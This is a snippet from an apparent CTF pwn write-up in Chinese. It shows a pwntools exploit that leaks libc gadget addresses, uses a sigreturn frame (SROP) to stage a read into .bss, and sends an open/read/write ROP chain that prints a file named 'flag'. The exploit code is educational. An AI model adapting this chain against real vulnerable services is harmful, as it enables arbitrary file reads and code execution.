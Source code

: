 ```plain
leak('rdi_ret',rdi_ret)
rsi_ret=libcbase+0x00000000000202f8
leak('rsi_ret',rsi_ret)
rdx_ret=libcbase+0x0000000000001b92
leak('rdx_ret',rdx_ret)

buf_addr=bss+0x400

sigFrame=SigreturnFrame()
sigFrame.rdi=0
sigFrame.rip=read_addr
sigFrame.rsi=buf_addr
sigFrame.rdx=0x200
sigFrame.rsp=buf_addr
pl=str(sigFrame)[8:]


p.sendlineafter('Please input magic message: ',pl)
gdb.attach(p)
pause()

flag=buf_addr+0x98


pl1=p64(rdi_ret)+p64(flag)+p64(rsi_ret)+p64(0)+p64(open_addr) #open
pl1+=p64(rdi_ret)+p64(3)+p64(rsi_ret)+p64(bss+0x200)+p64(rdx_ret)+p64(0x100)+p64(read_addr) #read
pl1+=p64(rdi_ret)+p64(1)+p64(rsi_ret)+p64(bss+0x200)+p64(rdx_ret)+p64(0x100)+p64(write_addr) #write
pl1+='flag\00'

s(pl1)

p.interactive()
```

解释一下exp：

[![](assets/1701612132-e0c46e9cf4cfb371f6ec8a5696c917a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001715-8765ecd0-3d19-1.png)
